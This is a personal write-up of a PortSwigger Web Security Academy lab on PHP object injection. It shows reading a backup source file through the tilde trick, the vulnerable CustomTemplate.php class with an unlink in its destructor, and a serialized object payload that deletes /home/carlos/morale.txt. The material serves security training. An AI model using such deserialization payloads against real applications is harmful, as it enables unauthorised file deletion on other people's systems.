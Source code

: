 ```yaml
---
title: 'Lab: Arbitrary object injection in PHP'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/Deserialization"
---
```


# Lab: Arbitrary object injection in PHP
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result.
* Goal: To solve the lab, create and inject a malicious serialized object to delete the morale.txt file from Carlos's home directory. You will need to obtain source code access to solve this lab.
You can log in to your own account using the following credentials: wiener:peter
* Hint: You can sometimes read source code by appending a tilde (~) to a filename to retrieve an editor-generated backup file.

## Constructor & Deconstructor
[Python建構函式與解構函式（__init__()和__del__()）](https://tw511.com/a/01/26451.html)
其實概念就是Python的`__init()__` function，在instanciate一個class的時候扮演初始化的功能而已
而deconstructor就是Python中的`__del__()` function用來回收不需要的class，以達到降低記憶體的使用量

## Recon
1. Login and Recon
As the solution of this lab, we first need to arbitrary query something in this website, e.g. query `My account` and forward all packages

2. Use Target Feature in Burp Suite
In my case, the URL of this lab is `https://0a29005704ba2655802d8a75009100d5.web-security-academy.net/my-account?id=wiener`

    So, I can search it in target feature to browse all query of this website.
    ![](https://i.imgur.com/SWrrzgI.png)

3. <font color="FF0000">通靈</font>Something Interesting - `/libs/CustomTemplate.php`
This file may be a vulnerability to achieve our goal.

4. Send to repeater
Obviously, you can not access the content first.
![](https://i.imgur.com/D31vFeN.png)

    By the hint. The solution is using `~` character to read the source code
    ![](https://i.imgur.com/1N1EpQh.png)

    :::spoiler CustomTemplate.php Source Code
    ```php=
    <?php

    class CustomTemplate {
        private $template_file_path;
        private $lock_file_path;

        public function __construct($template_file_path) {
            $this->template_file_path = $template_file_path;
            $this->lock_file_path = $template_file_path . ".lock";
        }

        private function isTemplateLocked() {
            return file_exists($this->lock_file_path);
        }

        public function getTemplate() {
            return file_get_contents($this->template_file_path);
        }

        public function saveTemplate($template) {
            if (!isTemplateLocked()) {
                if (file_put_contents($this->lock_file_path, "") === false) {
                    throw new Exception("Could not write to " . $this->lock_file_path);
                }
                if (file_put_contents($this->template_file_path, $template) === false) {
                    throw new Exception("Could not write to " . $this->template_file_path);
                }
            }
        }

        function __destruct() {
            // Carlos thought this would be a good idea
            if (file_exists($this->lock_file_path)) {
                unlink($this->lock_file_path);
            }
        }
    }

    ?>
    ```
    :::
    
    In this example, we notice that it has constructor and deconstructor so we can constuct a serialization string to delete something
## Exp - Deconstructor
Exploit Payload:
```php!
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

Then send it directly and we can delete the specific file properly.
:::spoiler Success Screenshot
![](https://i.imgur.com/NXvqtr5.png)

:::
